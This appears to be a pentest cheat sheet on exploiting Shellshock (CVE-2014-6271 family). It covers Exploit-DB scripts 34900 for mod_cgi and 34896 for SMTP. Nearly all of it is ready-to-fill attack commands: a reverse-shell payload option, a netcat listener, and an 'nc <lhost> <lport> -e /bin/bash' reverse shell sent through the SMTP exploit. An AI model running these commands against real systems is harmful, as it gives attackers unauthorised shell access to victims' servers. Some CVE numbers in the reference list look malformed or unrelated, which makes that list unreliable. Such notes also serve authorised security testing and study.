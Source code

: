 ### Shellshock using mod_cgi
```
python 34900.py payload=reverse rhost=<rhost> rport=<rport> lhost=<lhost> lport=<lport> pages=<path/cgi-bin/file>.cgi
```

### References
https://www.exploit-db.com/exploits/34900  
CVE-2014-6278  




### Prepare exploit for SMTP
```
vim 34896.py
```

### Insert:
```
data = netFormat("helo <domain>")
data = netFormat("mail from: <sender>")
data = netFormat("rcpt to: <recipient>")
```

### Start listener
```
nc -vlp <lport>
```

### Exploit
```
python2 34896.py <rhost> "nc <lhost> <lport> -e /bin/bash"
```

### References
https://www.exploit-db.com/exploits/34896  
CVE-2014-3659  
CVE-2014-3671  
CVE-2014-62771  
CVE-2014-7169  
CVE-2014-7196  
CVE-2014-7227  
CVE-2014-7910  

